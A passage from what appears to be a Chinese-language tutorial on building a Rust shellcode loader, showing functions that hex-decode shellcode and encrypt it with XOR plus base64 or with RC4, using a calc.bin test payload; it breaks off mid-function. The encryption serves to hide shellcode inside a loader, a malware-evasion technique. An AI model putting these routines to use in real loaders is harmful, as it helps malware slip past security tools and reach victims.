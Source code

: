 ```plain
fn hex_dec(shellcode:String) -> Vec<u8> {
    hex::decode(shellcode).expect("Error")
}
```

### 异或加密

通过迭代器将shellcode与key逐个字符进行异或，然后进行base64编码返回一段字符串。

要进行解密，需要先进行base64解码，然后将异或加密后的shellcode再次与key进行逐个字符进行异或，即可还原shellcode。

```plain
fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {
    let mut encrypted = Vec::new();
    for (i, &b) in shellcode.iter().enumerate() {
        encrypted.push(b ^ key[i % key.len()]);
    }
    base64::encode(&encrypted)
}

fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {
    let encrypted = base64::decode(encrypted).expect("msg");
    let mut decrypted = Vec::new();
    for (i, &b) in encrypted.iter().enumerate() {
        decrypted.push(b ^ key[i % key.len()]);
    }
    decrypted
}
```

### RC4加密

Rust要实现RC4加密与加密需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。

```plain
[dependencies]
rust-crypto="0.2.36"
base64="0.13.0"
rustc-serialize = "0.3"
```

下面是实现RC4加解密的代码，在加密的函数中最终返回的是Base64编码后的字符串，而解密函数最终返回的是Vec数组，这是为了方便在shellcode loader中读取加密后的shellcode以及加载解密后的shellcode。

```plain
use crypto::rc4::Rc4;
use crypto::symmetriccipher::SynchronousStreamCipher;
use std::iter::repeat;

fn main() {
    let buffer = include_bytes!("..\\calc.bin").as_slice();
    let key = "pRNtb343heAlnPFw5QiPHKxz3Z1dzLsqhiUyBNtTiI21DjUsZ0";

    let b64_string = enc(buffer, key);
    let shellcode = dec(b64_string.as_str(), key);

    println!("== RC4 ==");
    println!("Key: {}", key);
    println!("\nEncrypted (Base-64): {}", b64_string);
    println!("\nDecrypted: {:?}", shellcode);
}

fn enc(shellcode: &[u8], key: &str) -> String {
    let mut rc4 = Rc4::new(key.as_bytes());

    let mut result: Vec<u8> = repeat(0).take(shellcode.len()).collect();
    rc4.process(shellcode, &mut result);
```